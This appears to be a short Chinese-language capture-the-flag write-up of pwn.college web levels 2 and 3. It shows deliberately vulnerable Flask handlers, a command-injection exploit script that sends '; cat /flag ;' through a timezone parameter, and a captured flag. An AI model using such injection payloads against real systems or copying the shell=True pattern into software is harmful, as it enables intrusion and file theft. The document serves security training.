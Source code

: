 ## level2
源码
```python
def level2():
    timezone = request.args.get("timezone", "UTC")
    return subprocess.check_output(f"TZ={timezone} date", shell=True, encoding="latin")
```

利用脚本
```python
# level 2
# pwn.college{Qf_-LrgHRo8RcQtJZnootYJZt5J.dhDOzMDL0czNxEzW}
headers = {
    "host":'challenge.localhost',
}
time_zone = "; cat /flag ;"
response = requests.get('http://challenge.localhost:80/', headers=headers, params={"timezone": time_zone})
print(response.text)
```

## level3
源码：
```python

def level3():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f"SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
        assert user, "Invalid `username` or `password`"

        return redirect(request.path, user=int(user["rowid"]))

    if "user" in request.args:
        user_id = int(request.args["user"])
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            if username == "flag":
                return f"{flag}\n"
            return f"Hello, {username}!\n"

    return form(["username", "password"])


```
